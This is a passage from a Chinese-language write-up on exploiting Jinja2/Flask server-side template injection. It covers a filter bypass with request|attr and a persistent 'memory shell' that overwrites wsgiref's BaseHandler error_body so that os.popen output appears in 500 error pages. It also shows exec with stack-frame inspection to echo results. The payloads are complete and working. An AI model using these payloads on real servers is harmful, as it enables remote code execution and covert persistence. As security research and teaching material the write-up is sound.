

其他命令也是同理

当然也可以不用那么麻烦直接可以通过`{{(request|attr('GET')|attr('get'))('x')}}`实现动态的传参绕过过滤



## 500 Internal Server Error 内存马

让我们把目光放回在`BaseHandler`类中  
前面我们可以细心发现我们在`/info`路由实现任意文件读取时  
如果文件不存在或者文件 服务器会返回 状态500  
`A server error occurred. Please contact the administrator.`  
研究一下它的处理逻辑

```
def error_output(self, environ, start_response):  
    """WSGI mini-app to create error output  

    By default, this just uses the 'error_status', 'error_headers',    and 'error_body' attributes to generate an output page.  It can    be overridden in a subclass to dynamically generate diagnostics,    choose an appropriate message for the user's preferred language, etc.  
    Note, however, that it's not recommended from a security perspective to    spit out diagnostics to any old user; ideally, you should have to do    something special to enable diagnostic output, which is why we don't    include any here!    """    start_response(self.error_status,self.error_headers[:],sys.exc_info())  
    return [self.error_body]

```

这里我们可以尝试控制一下 `error_body`实现回显位



但是应该注意的是`error_body`必须是`bytes`类型  
所以我们可以对`read()`返回回来的数据实现encode转换

```
{{lipsum['__globals__']['__builtins__']['setattr']((((lipsum|attr('__spec__'))|attr('__init__')|attr('__globals__'))['sys']|attr('modules'))['wsgiref']|attr('handlers')|attr('BaseHandler'),'error_body',lipsum['__globals__']['__builtins__']['__import__']('os')['popen']('whoami')['read']()['encode']())}}

```

当我们再次触发500状态时 就可以正常回显我们想要的结果



同样的道理我们可以尝试覆盖`error_status`的值实现我们的目的

```
{{lipsum['__globals__']['__builtins__']['setattr']((((lipsum|attr('__spec__'))|attr('__init__')|attr('__globals__'))['sys']|attr('modules'))['wsgiref']|attr('handlers')|attr('BaseHandler'),'error_status',lipsum['__globals__']['__builtins__']['__import__']('os')['popen']('whoami')['read']())}}

```



这里服务器报错 应该有一个**合理性**的判断 `error_status` 是没有成功的

## 打印当前栈帧回显(带出异常信息)

偶然间发现如果(一种可能的情况)本身可以抛出异常

```
except Exception as e:
        return e

```

取当前的栈帧直接`print`就回显在异常中实现带入在`Response`里回显  
通过取当前的**栈帧**实现`Response`中回显结果

```
{{(lipsum['__globals__']['__builtins__']['exec'])("inspect=__import__('inspect')%0aframe=getattr(inspect,'currentframe')()%0alocal_vars =  getattr(frame,'f_locals')%0aresult=shell%0aprint(local_vars[result])",{"shell":lipsum['__globals__']['os']['popen']('whoami')|attr('read')()})}}

```

  
但是显然 回显方式和内存马肯定不止这7种方式 这里对`WSGIRef`内存马和Response响应头外带做了一个浅浅的探索和寻找 感觉收获还是很大的
